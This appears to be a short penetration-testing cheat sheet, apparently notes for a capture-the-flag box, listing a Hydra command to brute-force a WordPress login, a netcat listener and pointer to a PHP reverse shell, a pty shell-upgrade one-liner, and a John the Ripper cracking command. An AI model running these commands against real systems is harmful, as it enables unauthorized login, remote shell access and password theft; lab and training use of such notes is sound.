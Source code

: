 _______________________________________________________________________________
Hydra for web:
  hydra -l username -P fsocity dic 10.10.12.13 http-post-form "/wp-login.php: log=^USER^&pwd=^PWD^: Invalid username" -t 3
        ^^^ (-L if a username
        list is used)
_______________________________________________________________________________
Reverse Shell - php:
  rlwrap nc -lnvp 53
  Use this php script to send us a reverse shell from the target side - pentestmonkey :
    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

because reverse shells don't spawn in an interactive shell, this command can spawn an interactive shell in the reverse shell:
    python -c 'import pty;pty.spawn("/bin/bash")'

For more exploits check out this cheat sheet:
    https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

_______________________________________________________________________________
John the Ripper:
  john --worlist=/directory/to/worlist --format=[type of hash] [file with hash inside].txt

